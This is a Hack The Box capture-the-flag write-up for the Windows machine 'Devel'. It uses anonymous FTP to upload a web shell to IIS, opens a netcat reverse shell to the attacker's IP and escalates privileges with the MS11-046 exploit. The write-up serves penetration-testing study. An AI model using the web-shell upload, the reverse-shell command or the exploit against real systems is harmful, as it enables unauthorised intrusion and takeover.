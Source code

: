 ```yaml
---
layout: single
title: Devel - Hack The Box
excerpt: "Devel is an Windows machine that is cataloged as easy. In this case, we are going to take advantage of ftp (port 21) that allows anonymous login and let us as attackers upload a web shell and we will be in as the user 'iis appol \ web'. Then with a little help of Windows exploit suggester we get access as root user."
date: 2021-11-30
classes: wide
header:
  teaser: /assets/images/htb-writeup-Devel/logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - easy
  - ftp
  - Windows Exploit suggester

---
```


![](/assets/images/htb-writeup-Devel/logo.png)

DDDDDDevel is an Windows machine that is cataloged as easy. In this case, we are going to take advantage of ftp (port 21) that allows anonymous login and let us as attackers upload a web shell and we will be in as the user 'iis appol \web'. Then with a little help of Windows exploit suggester we get access as root user.

Machine IP = 10.10.10.5

The first thing I do is to setup my work environment with a Python script that I create which will tell me exactly what machine I'm attacking; At the same time it will create some directories that I normally use (nmap, content, exploit, notes).  

If you want to Clone this repository please refer to [initHack en github](https://github.com/W1nz4c4r/initHACK).

![](/assets/images/htb-writeup-Devel/initHACK.png)

## Port Scan
 After having everything setup I send the **nmap** command:
  * map -sS -sV -sC -p- -vvv -oA allPorts 10.10.10.5

```
Nmap 7.92 scan initiated Thu Nov 18 10:43:20 2021 as: nmap -sS -sV -sC -p- -vvv -oA allPorts 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up, received echo-reply ttl 127 (0.060s latency).
Scanned at 2021-11-18 10:43:26 EST for 312s
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 11-18-21  04:39AM                    7 hello.txt
| 03-17-17  04:37PM                  689 iisstart.htm
| 11-18-21  04:42AM                16392 shell.aspx
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 18 10:48:38 2021 -- 1 IP address (1 host up) scanned in 317.55 seconds
```

## Enumeration

First thing that I usually like to check is if the **ftp** accepts anonymous login and in this case it does.

![](/assets/images/htb-writeup-Devel/ftp-log.png)

Then I check the web page (port 80) and I realized that what is on the FTP seems to be the home folder for the web server, This means that we can upload a webshell through the FTP and access to it form the browser.

![](/assets/images/htb-writeup-Devel/web-page.png)


## Gaining Foothold

We'll create a test file and check if we can upload files to the web server.

```
<html>
  <h1> Test </h1>
</html>
```


upload the file through ftp:


 ![](/assets/images/htb-writeup-Devel/testFTP.png)

 then we go on our browser to **http://10.10.10.5/test.html** and we see that we can upload files to the web Server.


 ![](/assets/images/htb-writeup-Devel/testHTML.png)

 Now we are going to upload a web shell and we have command execution

 ![](/assets/images/htb-writeup-Devel/cmdWEB.png)


 Upload a nc.exe to the webpage so we can get a reverse Shell. once the **nc.exe** is uploaded on the web shell we run the following command to get a reverse shell.

    * \\10.10.14.9\mio\nc.exe -e cmd 10.10.14.9 443


![](/assets/images/htb-writeup-Devel/nc.png)

We are in as the user 'iis apppool\web' but we can't get the user or administrator credentials.

![](/assets/images/htb-writeup-Devel/noAccess.png)

## Privilege Escalation

Usually on windows machines what I do for privilege escalation is to run the 'systeminfo' command and check some information about the system.

```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          1/12/2021, 5:47:19 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.474 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.549 MB
Virtual Memory: In Use:    592 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::1fc
```

Something that got my attention was that the system is running a windows 7 build 7600 which is a relatively old Os and most likely vulnerable to some exploits

![](/assets/images/htb-writeup-Devel/exploit.png)

I downloaded the exploit **MS11-046** already compiled from [github](https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046). Once you already have the file you need to upload it to the attacked machine, in my case I did it with **impacket-smbserver**

![](/assets/images/htb-writeup-Devel/impakect.png)

Finally, run the exploit and you will be in as **root**.

![](/assets/images/htb-writeup-Devel/root.png)
